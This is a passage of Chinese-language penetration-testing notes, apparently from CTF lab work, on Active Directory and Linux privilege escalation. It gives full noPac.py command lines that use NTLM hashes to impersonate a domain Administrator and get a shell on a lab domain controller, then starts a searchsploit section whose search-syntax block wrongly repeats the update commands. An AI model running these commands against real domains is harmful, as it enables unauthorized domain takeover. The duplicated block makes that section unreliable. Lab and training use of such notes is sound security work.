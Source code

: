 也可以 使用 [noPac.py](F:\ctfTools\noPac-域内权限提升\noPac) 来打，不需要知道明文密码

如果账户在MA_Admin组，MA_Admin组对computer 能够创建对象

```bash
python noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```

 如果账户本身是机器用户的情况

```bash
python noPac.py xiaorang.lab/'XR-DESKTOP$' -hashes ':03e8d17f4da1797f6b69a9a7a23244c1' -dc-ip 172.22.11.6 --impersonate Administrator -no-add -target-name 'XR-DESKTOP$' -old-hash ':03e8d17f4da1797f6b69a9a7a23244c1' -use-ldap -shell
```

## 跨域攻击

[内网渗透基石篇 _ 跨域攻击分析及防御 - FreeBuf网络安全行业门户](F:\LocalCTF\内网渗透基石篇 _ 跨域攻击分析及防御 - FreeBuf网络安全行业门户.pdf)

# Linux权限提升

### 内核漏洞提权

#### SearchSploit

用kali自带的searchsploit来搜索exploitdb中的漏洞利用代码

**SearchSploit使用：**

**更新SearchSploit:**

```text
apt update && apt -y full-upgrade
searchsploit -u
```

**基本搜索语法：**

只需添加您想要查找的任意数量的搜索词：

```text
apt update && apt -y full-upgrade
searchsploit -u
```

![img](./images/20231018_0003177756.png)
